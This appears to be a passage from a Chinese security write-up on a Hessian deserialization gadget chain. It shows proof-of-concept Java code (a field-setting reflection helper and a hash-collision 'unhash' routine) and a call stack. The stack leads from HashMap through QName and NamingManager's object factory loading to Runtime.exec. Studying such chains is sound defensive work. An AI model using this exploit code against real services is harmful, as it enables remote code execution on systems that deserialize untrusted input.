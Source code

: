 ```plain
        Hessian2Input hessian2Input = new Hessian2Input(fileInputStream);
        HashMap o = (HashMap) hessian2Input.readObject();

    }

    public static void setFiled(String classname, Object o, String fieldname, Object value) throws Exception {
        Class<?> aClass = Class.forName(classname);
        Field field = aClass.getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(o, value);
    }

    public static String unhash ( int hash ) {
        int target = hash;
        StringBuilder answer = new StringBuilder();
        if ( target < 0 ) {
            // String with hash of Integer.MIN_VALUE, 0x80000000
            answer.append("\\u0915\\u0009\\u001e\\u000c\\u0002");

            if ( target == Integer.MIN_VALUE )
                return answer.toString();
            // Find target without sign bit set
            target = target & Integer.MAX_VALUE;
        }

        unhash0(answer, target);
        return answer.toString();
    }
    private static void unhash0 ( StringBuilder partial, int target ) {
        int div = target / 31;
        int rem = target % 31;

        if ( div <= Character.MAX_VALUE ) {
            if ( div != 0 )
                partial.append((char) div);
            partial.append((char) rem);
        }
        else {
            unhash0(partial, div);
            partial.append((char) rem);
        }
    }
}
```

#### 函数调用栈

```plain
exec:347, Runtime (java.lang)
<init>:6, test
newInstance0:-1, NativeConstructorAccessorImpl (sun.reflect)
newInstance:62, NativeConstructorAccessorImpl (sun.reflect)
newInstance:45, DelegatingConstructorAccessorImpl (sun.reflect)
newInstance:422, Constructor (java.lang.reflect)
newInstance:442, Class (java.lang)
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:319, NamingManager (javax.naming.spi)
getContext:439, NamingManager (javax.naming.spi)
getTargetContext:55, ContinuationContext (javax.naming.spi)
composeName:180, ContinuationContext (javax.naming.spi)
toString:353, QName (com.caucho.naming)
equals:392, XString (com.sun.org.apache.xpath.internal.objects)
putVal:634, HashMap (java.util)
```